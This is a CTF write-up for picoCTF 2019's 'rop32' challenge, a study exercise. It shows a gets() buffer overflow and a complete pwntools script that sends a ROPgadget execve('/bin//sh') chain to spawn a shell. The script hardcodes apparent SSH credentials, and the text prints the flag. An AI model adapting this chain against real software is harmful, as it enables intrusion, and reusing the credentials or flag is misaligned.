 # Problem
Can you exploit the following program to get a flag? You can find the [program](https://2019shell1.picoctf.com/static/9e6fc5d2d0470dc2d418ae812c3ee55f/vuln) in /problems/rop32_4_0636b42072627d283f46d2427804b10c on the shell server. [Source](https://2019shell1.picoctf.com/static/9e6fc5d2d0470dc2d418ae812c3ee55f/vuln.c).

## Hints:

This is a classic ROP to get a shell

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/9e6fc5d2d0470dc2d418ae812c3ee55f/vuln
wget https://2019shell1.picoctf.com/static/9e6fc5d2d0470dc2d418ae812c3ee55f/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("Can you ROP your way out of this one?\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

In a first glimpse, we can think that overriding the return address and sending a shellcode will be enough.

A deeper observation tells us that the stack isn't executable [Data Execution Prevention](https://en.wikipedia.org/wiki/Executable_space_protection#Windows), [NX bit](https://en.wikipedia.org/wiki/NX_bit).

```bash
roee@Roee-Ubuntu:~/CTFs-Writeups/picoCTF-2019/Binary/rop32-400$ checksec ./vuln

[*] '/home/roee/CTFs-Writeups/picoCTF-2019/Binary/rop32-400/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

The ```vuln()``` function is exploitable. We just need to override the return address and execute some shellcode.

First we need to check the offset overriding the return address. We can use this gdbinit script
```
run < <(echo AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ)
```

Lets debug:
```bash
gdb -x ./gdbinit ./vuln

Stopped reason: SIGSEGV
0x48484848 in ?? ()
```

We know that ```HHHH``` overrides the return address.

### Method 1 - Using automatic tools
We will use [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).

```bash
python ../../../tools/ROPgadget/ROPgadget.py --binary ./vuln --ropchain --badbytes "0a|0d"

...
Unique gadgets found: 10664

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

  [+] Gadget found: 0x8056e65 mov dword ptr [edx], eax ; ret
  [+] Gadget found: 0x806ee6b pop edx ; ret
  [+] Gadget found: 0x8056334 pop eax ; pop edx ; pop ebx ; ret
  [+] Gadget found: 0x8056420 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

  [+] Gadget found: 0x8056420 xor eax, eax ; ret
  [+] Gadget found: 0x807c2fa inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

  [+] Gadget found: 0x80481c9 pop ebx ; ret
  [+] Gadget found: 0x806ee92 pop ecx ; pop ebx ; ret
  [+] Gadget found: 0x806ee6b pop edx ; ret

- Step 4 -- Syscall gadget

  [+] Gadget found: 0x8049563 int 0x80

- Step 5 -- Build the ROP chain

  #!/usr/bin/env python2
  # execve generated by ROPgadget

  from struct import pack

  # Padding goes here
  p = ''

  p += pack('<I', 0x0806ee6b) # pop edx ; ret
  p += pack('<I', 0x080da060) # @ .data
  p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
  p += '/bin'
  p += pack('<I', 0x080da060) # padding without overwrite edx
  p += pack('<I', 0x41414141) # padding
  p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
  p += pack('<I', 0x0806ee6b) # pop edx ; ret
  p += pack('<I', 0x080da064) # @ .data + 4
  p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
  p += '//sh'
  p += pack('<I', 0x080da064) # padding without overwrite edx
  p += pack('<I', 0x41414141) # padding
  p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
  p += pack('<I', 0x0806ee6b) # pop edx ; ret
  p += pack('<I', 0x080da068) # @ .data + 8
  p += pack('<I', 0x08056420) # xor eax, eax ; ret
  p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
  p += pack('<I', 0x080481c9) # pop ebx ; ret
  p += pack('<I', 0x080da060) # @ .data
  p += pack('<I', 0x0806ee92) # pop ecx ; pop ebx ; ret
  p += pack('<I', 0x080da068) # @ .data + 8
  p += pack('<I', 0x080da060) # padding without overwrite ebx
  p += pack('<I', 0x0806ee6b) # pop edx ; ret
  p += pack('<I', 0x080da068) # @ .data + 8
  p += pack('<I', 0x08056420) # xor eax, eax ; ret
  p += pack('<I', 0x0807c2fa) # inc eax ; ret
  p += pack('<I', 0x0807c2fa) # inc eax ; ret
  p += pack('<I', 0x0807c2fa) # inc eax ; ret
  p += pack('<I', 0x0807c2fa) # inc eax ; ret
  p += pack('<I', 0x0807c2fa) # inc eax ; ret
  p += pack('<I', 0x0807c2fa) # inc eax ; ret
  p += pack('<I', 0x0807c2fa) # inc eax ; ret
  p += pack('<I', 0x0807c2fa) # inc eax ; ret
  p += pack('<I', 0x0807c2fa) # inc eax ; ret
  p += pack('<I', 0x0807c2fa) # inc eax ; ret
  p += pack('<I', 0x0807c2fa) # inc eax ; ret
  p += pack('<I', 0x08049563) # int 0x80
```

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *
from struct import pack

# Padding goes here
ropchain = ''

ropchain += pack('<I', 0x0806ee6b) # pop edx ; ret
ropchain += pack('<I', 0x080da060) # @ .data
ropchain += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
ropchain += '/bin'
ropchain += pack('<I', 0x080da060) # padding without overwrite edx
ropchain += pack('<I', 0x41414141) # padding
ropchain += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
ropchain += pack('<I', 0x0806ee6b) # pop edx ; ret
ropchain += pack('<I', 0x080da064) # @ .data + 4
ropchain += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
ropchain += '//sh'
ropchain += pack('<I', 0x080da064) # padding without overwrite edx
ropchain += pack('<I', 0x41414141) # padding
ropchain += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
ropchain += pack('<I', 0x0806ee6b) # pop edx ; ret
ropchain += pack('<I', 0x080da068) # @ .data + 8
ropchain += pack('<I', 0x08056420) # xor eax, eax ; ret
ropchain += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
ropchain += pack('<I', 0x080481c9) # pop ebx ; ret
ropchain += pack('<I', 0x080da060) # @ .data
ropchain += pack('<I', 0x0806ee92) # pop ecx ; pop ebx ; ret
ropchain += pack('<I', 0x080da068) # @ .data + 8
ropchain += pack('<I', 0x080da060) # padding without overwrite ebx
ropchain += pack('<I', 0x0806ee6b) # pop edx ; ret
ropchain += pack('<I', 0x080da068) # @ .data + 8
ropchain += pack('<I', 0x08056420) # xor eax, eax ; ret
ropchain += pack('<I', 0x0807c2fa) # inc eax ; ret
ropchain += pack('<I', 0x0807c2fa) # inc eax ; ret
ropchain += pack('<I', 0x0807c2fa) # inc eax ; ret
ropchain += pack('<I', 0x0807c2fa) # inc eax ; ret
ropchain += pack('<I', 0x0807c2fa) # inc eax ; ret
ropchain += pack('<I', 0x0807c2fa) # inc eax ; ret
ropchain += pack('<I', 0x0807c2fa) # inc eax ; ret
ropchain += pack('<I', 0x0807c2fa) # inc eax ; ret
ropchain += pack('<I', 0x0807c2fa) # inc eax ; ret
ropchain += pack('<I', 0x0807c2fa) # inc eax ; ret
ropchain += pack('<I', 0x0807c2fa) # inc eax ; ret
ropchain += pack('<I', 0x08049563) # int 0x80


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/rop32_4_0636b42072627d283f46d2427804b10c')
  p = s.process('./vuln')

binary = ELF('./vuln')

print p.recvuntil('Can you ROP your way out of this one?\n')
p.sendline('AAAABBBBCCCCDDDDEEEEFFFFGGGG' + ropchain)
p.sendline('cat flag.txt')
p.sendline('exit')

print p.recvall()
```

Flag: picoCTF{rOp_t0_b1n_sH_dee2e288}